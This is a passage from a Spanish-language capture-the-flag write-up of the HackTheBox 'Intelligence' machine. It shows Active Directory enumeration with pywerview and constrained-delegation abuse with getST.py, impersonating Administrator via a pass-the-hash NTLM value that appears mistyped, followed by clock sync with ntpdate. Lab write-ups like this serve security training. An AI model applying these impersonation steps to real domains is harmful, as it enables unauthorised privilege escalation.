 {:.note}
Nos devuelve el `dc.intelligence.htb` y el  `svc_int.intelligence.htb`.

![list](/assets/img/intelligence/Kali-2022-09-10-03-50-03.png){:.lead width="800" height="100" loading="lazy"}

```python
pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248 --full-data
```

{:.note}
Nos quedamos con el output `WWW/dc.intelligence.htb`.

Ya podirmoa ahora si impersonar.

![list](/assets/img/intelligence/Kali-2022-09-10-03-55-38.png){:.lead width="800" height="100" loading="lazy"}

```python
getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :c923c2f7b19819afbff604121ea4117
```

{:.note}
Tenemos problemas con la hora debemos sincronizarnos con el servidor.

Para sincronizarse con el servidor utilizamos `ntpdate`.

```python
ntpdate -s 10.10.10.248
```

{:.note}
Al final de la resolucion debmos regresar a nustra hora con `date -s "tu zona horaria u hora"`.
